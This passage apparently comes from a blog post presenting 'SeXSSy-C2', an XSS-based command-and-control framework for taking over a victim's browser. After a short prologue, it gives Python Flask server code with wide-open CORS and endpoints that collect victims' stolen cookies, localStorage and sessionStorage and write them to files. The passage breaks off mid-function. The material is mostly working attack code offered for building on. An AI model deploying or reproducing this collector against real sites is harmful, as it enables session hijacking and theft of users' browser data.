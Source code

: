 
<h2>Prologue:</h2>
With this added function we've a functioning XSS payload that can download the a site as a victim and send it back to us. We also have the full source code to do it and a working demo. We will end this post with this specific feature. Every update will have a feature like this and make our SeXSSy-C2 a full-fledged framework to control a victim's browser.

<h2>Source Code:</h2>
Server:
```
from flask import Flask
from flask import request
from flask_cors import CORS
import base64
import os
import time

app = Flask(__name__)
cors = CORS(app, resources={r"/*": {"origins": "*"}})

command = ""
isNewFileDownloaded = False
downloadedSite = ""

def encodeBase64(message):
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')
    return base64_message

def decodeBase64(message):
    base64_bytes = message.encode('ascii')
    message_bytes = base64.b64decode(base64_bytes)
    result = message_bytes.decode('ascii')
    return result

@app.route("/saveCookie", methods=['POST', 'GET'])
def saveCookie():
    cookie = ""
    if request.method == 'GET':
        cookie = request.args.get("a")
    else:
        cookie = request.form["a"]
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveLocalStorage", methods=['POST', 'GET'])
def saveLocalStorage():
    localStorage = ""
    if request.method == 'GET':
        localStorage = request.args.get("a")
    else:
        localStorage = request.form["a"]
    f = open("savedLocalStorage.txt", "a")
    f.write(localStorage)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveSessionStorage", methods=['POST', 'GET'])
def saveSessionStorage():
    sessionStorage = ""
```